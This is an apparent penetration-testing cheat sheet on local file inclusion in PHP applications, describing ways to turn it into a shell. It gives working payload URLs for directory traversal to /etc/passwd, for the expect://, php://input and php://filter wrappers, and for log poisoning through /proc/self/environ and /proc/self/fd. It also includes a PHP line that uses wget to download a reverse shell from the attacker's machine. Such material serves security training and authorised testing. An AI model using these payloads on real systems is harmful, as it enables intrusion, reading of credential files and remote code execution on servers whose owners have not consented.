

LFI Cheat Sheet

## **What is an LFI Vulnerability?**

LFI stands for **Local File Includes** - it’s a file local inclusion vulnerability that allows an attacker to include files that exist on the target web server. Typically this is exploited by abusing dynamic file inclusion mechanisms that don’t sanitize user input.

Scripts that take filenames as parameters without sanitizing the user input are good candidates for LFI vulnerabilities, a good example would be the following PHP script foo.php?file=image.jpg which takes image.jpg as a parameter. An attacker would simply replace image.jpg and insert a payload. Normally a directory traversal payload is used that escapes the script directory and traverses the filesystem directory structure, exposing sensitive files such as foo.php?file=../../../../../../../etc/passwd or sensitive files within the web application itself. Exposing sensitive information or configuration files containing SQL usernames and passwords.

Note: In some cases, depending on the nature of the LFI vulnerability it’s possible to run system executables.

## **How to get a Shell from LFI**

Below are some techniques I’ve used in the past to gain a shell on systems with vulnerable LFI scripts exposed.

* * *

### Path Traversal aka Directory Traversal

As mentioned above Traverse the filesystem directory structure to disclose sensitive information about the system that can help you gain a shell, usernames / passwords etc.

* * *

### PHP Wrapper expect:// LFI

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

http://127.0.0.1/fileincl/example1.php?page=expect://ls
Below is the error received if the PHP expect wrapper is disabled:

Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you  configured PHP? in /var/www/fileincl/example1.php on line 7 Warning: include(): Unable to find the  wrapper "expect" - did you forget to enable it when you configured PHP? in   /var/www/fileincl/example1.php on line 7 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7

* * *

### PHP Wrapper php://file

Another PHP wrapper, php://input your payload is sent in a POST request using curl, burp or hackbar to provide the post data is probably the easiest option.

Example:

http://192.168.183.128/fileincl/example1.php?page=php://input
Post Data payload, try something simple to start with like:

Then try and download a [reverse shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) from your attacking machine using:

<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>

After uploading execute the reverse shell at http://192.168.183.129/shell.php

* * *

### PHP Wrapper php://filter

Another PHP wrapper, php://filter in this example the output is encoded using base64, so you’ll need to decode the output.

http://192.168.155.131/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

* * *

### /proc/self/environ LFI Method

If it’s possible to include /proc/self/environ from your vulnerable LFI script, then code execution can be leveraged by manipulating the User Agent parameter with Burp. After the PHP code has been introduced /proc/self/environ can be executed via your vulnerable LFI script.

* * *

### /proc/self/fd/ LFI Method

Similar to the previous /proc/self/environ method, it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the referer.

This method is a little tricky as the proc file that contains the Apache error log information changes under /proc/self/fd/ e.g. /proc/self/fd/2, /proc/self/fd/10 etc. I’d recommend brute forcing the directory structure of the /proc/self/fd/ directory with Burp Intruder + FuzzDB’s [LFI-FD-Check.txt](https://github.com/tennc/fuzzdb/blob/master/dict/BURP-PayLoad/LFI/LFI-FD-check.txt) list of likely proc files, you can then monitor the returned page sizes and investigate.

* * *

## **fimap LFI Pen Testing Tool**

fimap is a [tool used on pen tests](https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/) that automates the above processes of discovering and exploiting LFI scripts. Upon discovering a vulnerable LFI script fimap will enumerate the local filesystem and search for writable log files or locations such as /proc/self/environ. Another tool commonly used by pen testes to automate LFI discovery is Kali’s dotdotpwn, which works in a similar way.

* * *

### fimap + phpinfo() Exploit

Fimap exploits PHP’s temporary file creation via Local File Inclusion by abusing PHPinfo() information disclosure glitch to reveal the location of the created temporary file.

If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.

Enjoy.